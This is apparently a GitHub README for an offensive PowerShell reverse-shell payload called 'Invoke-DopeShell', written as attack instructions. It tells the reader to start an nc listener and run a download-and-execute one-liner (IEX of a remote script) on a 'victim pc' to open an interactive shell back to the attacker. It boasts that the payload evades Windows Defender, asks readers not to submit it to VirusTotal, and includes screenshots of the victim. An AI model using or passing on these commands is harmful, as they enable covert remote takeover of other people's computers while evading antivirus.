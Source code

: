 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">

# INSTRUCTIONS : - 
<br>
 <br> 
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
 <br> 
2.) Open powershell on the victim pc and type:-  <br> 
 <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/Invoke-DopeShell.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT". <br> Enter the IP ADDR and PORT of YOUR machine from where you are listening.

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 


# SCREENSHOTS:-
<br>
## Listener - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/listener.png.png">
<br>
## Spawned Connection without alerting Windows Defender -
<br>
<img scr="powershell_payload/spawned_interactive_shell.png.png">
<br>
## Victim Pc - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/victimpc.png.png">
<br>
